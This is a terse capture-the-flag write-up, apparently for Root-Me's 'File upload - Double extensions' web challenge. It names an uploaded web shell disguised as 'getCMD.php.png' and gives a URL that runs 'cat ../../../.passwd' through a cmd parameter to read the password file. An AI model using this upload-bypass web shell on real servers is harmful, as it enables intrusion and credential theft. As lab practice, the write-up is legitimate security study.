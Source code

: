 # File upload - Double extensions

Upload File: [getCMD.php.png](getCMD.php.png)

http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/fmqksg11kkl309h2ec7bh7oak0/getCMD.php.png?cmd=cat ../../../.passwd

